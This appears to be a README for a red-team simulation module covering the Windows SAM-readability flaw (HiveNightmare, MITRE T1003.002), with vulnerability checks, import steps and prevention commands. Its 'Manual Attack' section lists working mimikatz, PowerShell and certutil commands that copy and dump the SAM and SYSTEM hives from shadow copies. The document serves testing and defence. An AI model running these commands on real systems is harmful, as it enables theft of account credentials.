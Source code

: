 # T1003.002 - OS Credential Dumping: Security Account Manager

On July 19, 2021, @jonasLyk noticed the SAM file is readable by all users. Upon further investigation, a number of Windows versions allowed any user to read the SAM file. For more about OS Credential Dumping: https://attack.mitre.org/techniques/T1003/002/

## Check if system is vulnerable
As a non-administrative user, run the following in a command prompt
- ```whoami /groups```
- ```sc query vss```
- ```vssadmin list shadows```
- ```icacls %windir%\system32\config\sam```

A vulnerable system will report ```BUILTIN\Users:(I)(RX)```

## Import the Compound Action
1. Click Threat Manager - Migrate Threats
2. Under "Import Threat" click “Choose File” and select the JSON file you downloaded from GitHub
3. Click Import and OK when complete
4. Click Threat Manager - Threat Catalog
5. Find the imported Compound Action and click the tag icon 
6. Tag the MITRE ATT&CK Technique for the Compound Action

## Attack
1. Create a new campaign
2. Select the Compound Action for T1003.002
3. Note: you may need to change the HarddiskVolumeShadowCopy# to the backup available on the disk. You can identify that by using the ```vssadmin list shadows``` command.

## Manual Attack
- ```mimikatz "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\system /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\\sam"```
- ```powershell foreach($i in @("SYSTEM","SAM")){[System.IO.File]::Copy("\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\$i", "$i")}```
- ```certutil -encode \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\SYSTEM SYSTEM.encoded```
- ```certutil -decode SYSTEM.encoded SYSTEM.hive```
- ```certutil -encode \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\SAM SAM.encoded```
- ```certutil -decode SAM.encoded SAM.hive```

## Prevention
Restrict access to SAM, SYSTEM, and SECURITY files and remove VSS shadow copies. On a command prompt with administrative privileges:
- ```icacls %windir%\system32\config\sam /remove "Users"```
- ```icacls %windir%\system32\config\security /remove "Users"```
- ```icacls %windir%\system32\config\system /remove "Users"```
- ```vssadmin delete shadows /for=c: /Quiet```
- ```vssadmin list shadows```

## References
- https://twitter.com/jonasLyk/status/1417205166172950531
- https://attack.mitre.org/techniques/T1003/002/
- https://www.kb.cert.org/vuls/id/506989
- https://doublepulsar.com/hivenightmare-aka-serioussam-anybody-can-read-the-registry-in-windows-10-7a871c465fa5
- https://github.com/GossiTheDog/HiveNightmare
